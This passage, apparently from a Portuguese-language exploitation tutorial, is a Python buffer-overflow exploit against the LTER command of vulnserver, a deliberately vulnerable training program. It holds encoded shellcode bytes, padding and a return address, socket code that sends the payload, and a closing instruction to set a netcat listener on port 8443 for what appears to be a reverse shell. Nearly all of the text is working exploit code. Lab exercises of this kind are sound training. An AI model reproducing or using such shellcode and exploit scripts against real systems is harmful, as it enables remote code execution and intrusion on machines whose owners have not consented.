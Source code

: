 ```python
shellcode += b"\x70\x31\x68\x76\x73\x5a\x54\x52\x70\x59\x50"
shellcode += b"\x56\x39\x72\x69\x6d\x75\x36\x4a\x67\x37\x34"
shellcode += b"\x35\x74\x47\x4c\x77\x71\x65\x51\x4c\x4d\x31"
shellcode += b"\x54\x35\x74\x46\x70\x78\x46\x35\x50\x42\x64"
shellcode += b"\x66\x34\x70\x50\x32\x76\x42\x76\x36\x36\x50"
shellcode += b"\x46\x30\x56\x42\x6e\x73\x66\x32\x76\x51\x43"
shellcode += b"\x66\x36\x51\x78\x34\x39\x4a\x6c\x55\x6f\x4b"
shellcode += b"\x36\x69\x6f\x58\x55\x6e\x69\x4b\x50\x30\x4e"
shellcode += b"\x71\x46\x42\x66\x49\x6f\x46\x50\x50\x68\x46"
shellcode += b"\x68\x4f\x77\x45\x4d\x71\x70\x6b\x4f\x38\x55"
shellcode += b"\x4d\x6b\x49\x70\x45\x4d\x47\x5a\x76\x6a\x71"
shellcode += b"\x78\x6c\x66\x5a\x35\x6d\x6d\x6f\x6d\x69\x6f"
shellcode += b"\x4a\x75\x35\x6c\x37\x76\x71\x6c\x55\x5a\x4f"
shellcode += b"\x70\x4b\x4b\x39\x70\x51\x65\x37\x75\x6f\x4b"
shellcode += b"\x67\x37\x76\x73\x72\x52\x72\x4f\x63\x5a\x33"
shellcode += b"\x30\x53\x63\x79\x6f\x4b\x65\x41\x41"


# payload
payload = b"LTER /."
payload += b"A" * 2005
payload += b"\x03\x12\x50\x62"
payload += shellcode
payload += b"C" * (offset - 2005 - 4 - len(shellcode))

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```

Agora vamos setar o netcat para ouvir na porta 8443 e iniciar o vulnserver fora do Immunity.
